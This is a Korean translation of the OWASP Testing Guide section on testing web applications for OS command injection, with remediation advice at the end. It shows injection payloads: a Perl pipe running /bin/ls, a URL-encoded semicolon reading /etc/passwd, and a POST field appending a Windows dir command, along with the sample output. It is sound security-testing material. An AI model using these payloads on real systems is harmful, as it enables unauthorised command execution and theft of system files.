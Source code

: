 ============================================================================================
OTG-INPVAL-013 (커멘드 인젝션 침투 테스트)
============================================================================================

|

개요
============================================================================================

이 섹션은 OS 커멘드 인젝션으로 어플리케이션을 테스트하는 방법을 설명합니다.
테스터는 어플리케이션에서 HTTP 요청을 통해 OS 명령을 삽입할 수 있습니다.
OS 명령 인젝션은 웹 서버에 OS 명령을 실행하기 위해 웹 인터페이스를 사용하는 기술입니다.

사용자는 웹 인터페이스를 통해 OS 명령을 실행하기 위해 운영체제 명령어를 입력합니다.
제대로 필터링되지 않은 웹 인터페이스는 해당 공격에 취약할 수 있습니다.

OS 명령을 실행하는 명령으로 사용자는 악성 프로그램을 업로드하거나 패스워드를 획득할 수 있습니다.
OS 명령 인젝션은 어플리케이션 설계와 개발시 보안이 강조되어 야 예발될 수 있습니다.

|

테스트 방법
============================================================================================

웹 어플리케이션에서 파일을 볼 때, 종종 URL에서 파일명이 보여집니다.
Perl은 파이프 명령을 사용할 수 있습니다.

사용자는 간단하게 파일명 끝에 파이프 "|"" 기호를 추가할 수 있습니다.

**예제**

[변경 전]

.. code-block:: html

    http://sensitive/cgi-bin/userData.pl?doc=user1.txt

[변경 후]

.. code-block:: html

    http://sensitive/cgi-bin/userData.pl?doc=/bin/ls|

위와 같은 경우 "/bin/ls"를 실행할 것입니다.

.PHP 페이지 URL 끝에 세미콜론을 추가하는 것으로 운영체제 명령이 실행될 것입니다.

%3B는 세미콜론이 url 암호화된 것입니다.

**예제**

.. code-block:: html
    
    http://sensitive/something.php?dir=%3Bcat%20/etc/passwd

|

**예제**

인터넷으로부터 브라우징할 수 있는 문서 설정을 포함한 어플리케이션의 경우를 고려해봅시다.
만약 당신이 WebScarab을 사용한다면, POST HTTP를 얻을 수 있습니다.

이 post 요청에서, 어플리케이션이 공개 문서를 검색하는 방법을 알 수 있습니다.
이제 POST HTTP에 운영체제 명령을 삽입하여 추가할 수 있는지 테스트 할 수 있습니다.

다음을 시도해보십시오:

.. code-block:: html
    
    POST http://www.example.com/public/doc HTTP/1.1
    Host: www.example.com
    User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.1; it;
    rv:1.8.1) Gecko/20061010 FireFox/2.0
    Accept: text/xml,application/xml,application/xhtml+xml,-
    text/html;q=0.9,text/plain;q=0.8,image/png,*/*;q=0.5
    Accept-Language: it-it,it;q=0.8,en-us;q=0.5,en;q=0.3
    Accept-Encoding: gzip,deflate
    Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.7
    Keep-Alive: 300
    Proxy-Connection: keep-alive
    Referer: http://127.0.0.1/WebGoat/attack?Screen=20
    Cookie: JSESSIONID=295500AD2AAEEBEDC9DB86E-
    34F24A0A5
    Authorization: Basic T2Vbc1Q9Z3V2Tc3e=
    Content-Type: application/x-www-form-urlencoded
    Content-length: 33
    
    Doc=Doc1.pdf

만약 어플리케이션이 요청에 대한 유효성 검사를 하지 않는다면, 다음 결과를 획득할 수 있습니다.

.. code-block:: html

    POST http://www.example.com/public/doc HTTP/1.1
    Host: www.example.com
    User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.1; it;
    rv:1.8.1) Gecko/20061010 FireFox/2.0
    Accept: text/xml,application/xml,application/xhtml+xml,text/
    html;q=0.9,text/plain;q=0.8,image/png,*/*;q=0.5
    Accept-Language: it-it,it;q=0.8,en-us;q=0.5,en;q=0.3
    Accept-Encoding: gzip,deflate
    Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.7
    Keep-Alive: 300
    Proxy-Connection: keep-alive
    Referer: http://127.0.0.1/WebGoat/attack?Screen=20
    Cookie: JSESSIONID=295500AD2AAEEBEDC9DB86E-
    34F24A0A5
    Authorization: Basic T2Vbc1Q9Z3V2Tc3e=
    Content-Type: application/x-www-form-urlencoded
    Content-length: 33

    Doc=Doc1.pdf+|+Dir c:\

이 경우, 성공적으로 OS 삽입 공격을 수행할 수 있습니다.

.. code-block:: html

    Exec Results for ‘cmd.exe /c type "C:\httpd\public\
    doc\"Doc=Doc1.pdf+|+Dir c:\’
    Output...
    Il volume nell’unità C non ha etichetta.
    Numero di serie Del volume: 8E3F-4B61
    Directory of c:\
     18/10/2006 00:27 2,675 Dir_Prog.txt
     18/10/2006 00:28 3,887 Dir_ProgFile.txt
     16/11/2006 10:43
     Doc
     11/11/2006 17:25
     Documents and Settings
     25/10/2006 03:11
     I386
     14/11/2006 18:51
     h4ck3r
     30/09/2005 21:40 25,934
     OWASP1.JPG
     03/11/2006 18:29
     Prog
     18/11/2006 11:20
     Program Files
     16/11/2006 21:12
     Software
     24/10/2006 18:25
     Setup
     24/10/2006 23:37
     Technologies
     18/11/2006 11:14
     3 File 32,496 byte
     13 Directory 6,921,269,248 byte disponibili
     Return code: 0

|

Tools
============================================================================================

- OWASP WebScarab
- OWASP WebGoat

|

References
============================================================================================

White papers
---------------------------------------------------------------------------------------

- http://www.securityfocus.com/infocus/1709


|

Remediation
============================================================================================

Sanitization
--------------------------------------------------------------------------------------

The URL and form data needs to be sanitized for invalid characters.
A "blacklist" of characters is an option but it may be difficult
to think of all of the characters to validate against. Also there
may be some that were not discovered as of yet. A "white list"
containing only allowable characters should be created to validate
the user input. Characters that were missed, as well as undiscovered
threats, should be eliminated by this list.
Permissions
The web application and its components should be running under
strict permissions that do not allow operating system command
execution. Try to verify all these informations to test from a Gray
Box point of view